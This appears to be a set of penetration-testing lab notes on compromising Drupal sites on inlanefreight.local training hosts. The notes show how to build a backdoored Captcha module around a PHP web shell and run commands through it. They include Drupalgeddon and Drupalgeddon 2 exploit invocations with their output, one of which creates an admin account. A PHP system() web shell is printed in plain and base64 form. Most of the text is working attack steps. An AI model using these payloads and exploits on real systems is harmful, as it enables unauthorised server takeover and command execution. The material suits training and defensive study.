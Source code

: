 mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

On Drupal with administrative access :
Manage
Extend
+ Install new module
Browse to the backdoored Captcha archive
Install

curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

## Leveraging Known Vulnerabilities

### Drupalgeddon
https://www.drupal.org/SA-CORE-2014-005

It affects versions 7.0 up to 7.31 and was fixed in version 7.32

Exploit :

https://www.exploit-db.com/exploits/34992
Enable the PHP Filter module
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node

http://http://drupal-qa.inlanefreight.local/user#overlay=admin/people

We could also use the exploit/multi/http/drupal_drupageddon Metasploit module to exploit this.


### Drupalgeddon 2

https://www.drupal.org/sa-core-2018-002

It affects versions of Drupal prior to 7.58 and 8.5.1

Exploit :
https://www.exploit-db.com/exploits/44448

python3 drupalgeddon2.py 
Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/
Check: http://drupal-dev.inlanefreight.local/hello.txt

curl -s http://drupal-dev.inlanefreight.local/hello.txt
;-)

<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>

echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
